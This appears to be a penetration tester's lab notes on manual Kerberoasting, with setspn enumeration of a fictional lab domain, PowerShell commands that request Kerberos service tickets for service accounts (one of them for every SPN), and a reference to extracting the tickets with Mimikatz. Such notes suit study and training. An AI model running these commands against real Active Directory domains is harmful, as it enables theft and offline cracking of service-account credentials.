 ```yaml
---
tags:
  - windows
  - kerberoasting
---
```

>Manual method for kerberoasting if tools don't work.  

# Kerberoasting
To perform kerberoasting, the steps are:
1. Find user accounts with `SPNs`
2. Load the TGS ticket into memory
3. Extract those TGS tickets from memory using [[Mimikatz#Kerberoasting|Mimikatz]]
## 1. Enumerate SPNs.
```cmd
> setspn.exe -Q */*

Checking domain DC=INLANEFREIGHT,DC=LOCAL
CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
        exchangeAB/ACADEMY-EA-DC01
        exchangeAB/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        TERMSRV/ACADEMY-EA-DC01
        TERMSRV/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-

<SNIP>

CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        backupjob/veam001.inlanefreight.local
CN=SOLARWINDSMONITOR,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        sts/inlanefreight.local

<SNIP>

CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SPSJDB.inlanefreight.local:1433
CN=sqlqa,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SQL-CL01-01inlanefreight.local:49351
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        adfsconnect/azure01.inlanefreight.local

Existing SPN found!
```
Focus on `user accounts` and ignore computer accounts.
## 2. Request TGS tickets for the above `user account` and load it into memory
```powershell
PS > Add-Type -AssemblyName System.IdentityModel
PS > New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```
This is what even [[Rubeus]] does in default kerberoasting method:
- [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet adds a .NET framework class to our PS session.
- `-AssemblyName` parameter specifies an assembly that contains types that we want to use.
- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services.
- [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet creates an instance of a .NET Framework object.
- [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class creates a security token and passes the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session
## - Retrieve All Tickets
```powershell
PS > setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
## Extract using [[Mimikatz#Kerberoasting|Mimikatz]]![[Mimikatz#Kerberoasting]]